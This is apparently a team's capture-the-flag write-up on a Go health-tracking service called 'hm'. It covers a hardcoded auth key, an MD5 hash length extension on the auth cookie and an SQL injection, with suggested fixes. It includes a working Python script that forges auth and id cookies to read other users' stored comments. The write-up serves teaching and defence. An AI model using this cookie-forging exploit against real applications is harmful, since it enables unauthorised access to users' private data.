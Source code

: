# Healthmonitor (hm)

First glance at Healthmonitor, called "hm", revealed a simple register/login procedure, hinting at a database. 
Written in go(golang), with access to source code.
After logging in, we could add health metrics (weight, blood pressure, pulse, walking distance and a comment) and list these.
Comments were only visible to the respective users when logged in.
The database showed several users having flags as comments.
Our goal was to read comments from other users, without knowledge of their password.
While registered and logged in we got some cookies: session, auth (which was obviously a md5 hash) and an id (which was a base64 decoded string "u_XXX", the user_id)

## fixed key

Our go-to (obvious pun intended) was to look at main.go which showed a constant key. And since every team had the same vbox image, every team had to have the same key. This constant key was used for the auth cookie generation:

e.g. the auth-verifier
``` go
func authVerified(auth string, uId string) (bool, error) {
	id := decodeBase64(uId)	//decode uID from cookie -> u_XXX
    res := md5hash(Key, id) //calculate md5hash of the key and the uID
	if res == auth {		//if its equal with the auth value from the cookie return true else false
		return true, nil
	} else {
		return false, errors.New(Unauthorized)
	}
}
```

We could see that you only had to know the uID and the key to calculate the auth-cookie. Since every key on every image was the same, we could easily exploit it.
Course of action, accordingly, was:

1. Register a user to get the highest uID
2. Change the uID, calculate the md5hash for the new auth-cookie and send a request to read your health metrics

The best solution was to decrease the uID and submit flags until no valid flags were left.

Quick & Dirty exploit
(python)
``` python
import requests, re, base64, hashlib, random, string, sys

key = "f11ecd5521ddf2614e17e4fb074a86da"

#register new user
randomuser = ''.join([random.choice(string.ascii_letters + string.digits) for n in xrange(16)])
url = "http://" + str(sys.argv[1]) + ":8000"
body = {'Login': randomuser, 'Pass':randomuser}
r = requests.post(url + "/newuser", data=body)
uid = int(re.findall(r'assigned: u_([0-9]+)', r.text)[0])
uidorig = uid
bufferr = "";

while(uid > uidorig - 100): #here you could improve the exploit
	uid = uid - 1
	#calc auth
	md5sum = hashlib.md5(key + 'u_' + str(uid)).hexdigest()
	#uID 
	uidBase64 = base64.b64encode('u_' + str(uid))
	cookies = dict(auth=md5sum, id=uidBase64)
	#get metrics
	r = requests.get(url + "/healthmetrics", cookies=cookies)
	print r.text #our submitter greps the flags
```

To fix the flaw we just changed the key and recompiled it. (# go build)

## hash length extension

This was the most obvious flaw and we did not look or think further. But there was more and other teams were probably just as lazy as we were and just changed the key and were still vulnerable to a hash length extension attack. Since auth was calculated via `md5(key, id)`, and the id was user provided we could provide arbitrary data. 

If you're doing a lot of CTFs you are probably familiar with hash extension if not the best thing to start is by reading [this blog post](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) and playing around with [hash_extender](https://github.com/iagox86/hash_extender) 

If you are lazy and don't want to read up here is the short version: Merkel-Damgard Hashes like MD5 and SHA1/SHA2 are vulnerable to hash length extension attacks. This attacks allows you to recalculate hashes that are built like the one above `hash(secret, user-provided-data)`. You could than just append more data and calculate a corresponding hash without knowledge of the secret. 

To make this work there still had to be some features in the code. To exploit the flaw you'd need to change the base64 encoded user id and the auth token. You could only append data to the user id, not change it, but these features were provided. 
The check for the auth cookie is done in getUserId:

``` go
auth := authCookie.Value
id := idCookie.Value
verified, err := authVerified(auth, id)
```
and after that verification the id is extracted from the id cookie with the extractUid function. 
``` go
func extractUid(idStr string) string {
	id := decodeBase64(idStr)
	f := strings.FieldsFunc(id, split)
	return f[len(f)-1]
}
```
interesting so what does split split?
``` go
func split(c rune) bool {
	return c == ';' || c == ' ' 
}
```
so we can just append the new user id after a ; and can trigger a valid authentication for that user. 

The only remaining problem is we do not know the length of the secret which we need to calculate our new auth token, but hash extender can generate multiple tokens at once with varying secret length.

So here is a pseudo code writeup after a POC with burp as we were too lazy to actually automate it with python... 

1. Create new user
2. bruteforce secret length for id - 1
3. check the next users for flags with the now known secret length

To fix this properly you should apply a HMAC instead of `md5(secret+data)` but in this context `md5(secret+data+secret)` would have been enough. 


## SQL injection
But still, there was more. Most database queries used prepared statements except the one that checked if a user name already existed. 

To fix this flaw simply change the query to a prepared statement just like the rest.

## Summary

We didn't expect that may flaws in just one service and only exploited and fixed one. But still this service was our cash cow and we were able to score good points, but the next time we will take a second look and fix and exploit more vulnerabilities. 
